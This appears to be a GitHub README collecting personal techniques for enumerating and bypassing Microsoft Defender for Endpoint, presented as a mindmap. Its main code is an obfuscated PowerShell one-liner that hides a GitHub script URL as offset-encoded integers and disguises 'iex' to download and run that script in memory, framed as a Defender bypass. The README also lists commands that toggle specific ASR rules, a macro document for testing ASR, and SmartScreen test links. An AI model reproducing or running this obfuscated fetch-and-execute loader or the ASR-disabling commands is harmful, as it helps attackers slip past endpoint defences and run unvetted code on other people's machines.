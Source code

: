 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    MDE[ Microsoft Defender for Endpoint ]
    MDE --> MDEENUM[ Enumerate MDE ]
    MDEENUM --> | fkmde.ps1 | MDEVULN[ Vulnerable Configurations ]
    MDEENUM --> |  Windows UI | MDEVULN[ Vulnerable Configurations ]
    MDEVULN --> | officemacro32.docm | MDEASR[ ASR Misconfiguration ]
    MDEVULN --> | ASR exclusions | MDEASR
    MDEVULN --> MDEEXCLUSION[ Defender Exclusions ]

    MDE --> MDEBYPASS[ Attempt Defender Bypass ]
    MDEBYPASS --> | ps1-obfuscator.ps1 | MDEBYPASS2[ Defender Bypass ]

    MDE --> MDESSCR[ Find disabled Smart Screen Settings ]
    MDESSCR --> | Smart Screen testing URL | MDESSCR2[ Vulnerable Smart Screen ]

    APP[ Microsoft AppLocker ]
```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint

A collection of enumeration procedures.

* ps1-obfuscator and fkmde:
  ```powershell
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"
  ```

### ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.

![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

* officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)  
ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

Disable / Enable ASR Rules
```
Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
```
  
### Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html





